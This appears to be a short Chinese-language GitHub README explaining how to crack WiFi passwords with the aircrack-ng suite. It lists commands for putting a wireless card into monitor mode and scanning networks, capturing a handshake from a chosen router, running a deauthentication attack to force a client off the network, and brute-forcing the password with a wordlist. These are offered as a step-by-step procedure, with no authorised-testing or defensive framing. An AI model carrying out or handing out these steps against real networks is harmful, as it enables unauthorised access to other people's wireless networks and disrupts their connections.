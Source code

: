 # 如何破解wifi密码？

## aircrack-ng 命令的详细解释
![C0127 00_06_19_11 Still004](https://github.com/3981877/wifi/assets/60610978/047fd241-0aed-4df0-86a7-4e8088335950)

sudo -i  ：管理员权限

ifconfig ：查看当前的网卡信息

airmon-ng：检查网卡是否支持监听功能的

airmon-ng start wlan0 ：激活无线网卡的监听模式

airodump-ng wlan0 ：扫描当前周边环境的WiFi信号

下面里的部分信息根据自己的情况进行替换

抓包命令：airodump-ng -c 11 –bssid 60:32:B1:56:3F:B2 -w /home/lingdu/桌面/handshake wlan0

ACK 死亡攻击：aireplay-ng -0 10 -a 60:32:B1:56:3F:B2 -c F0:72:EA:E8:72:21 wlan0

暴力破解命令：
aircrack-ng -w /home/lingdu/桌面/password.txt -b 60:32:B1:56:3F:B2 /home/lingdu/桌面/handshake-0*.cap
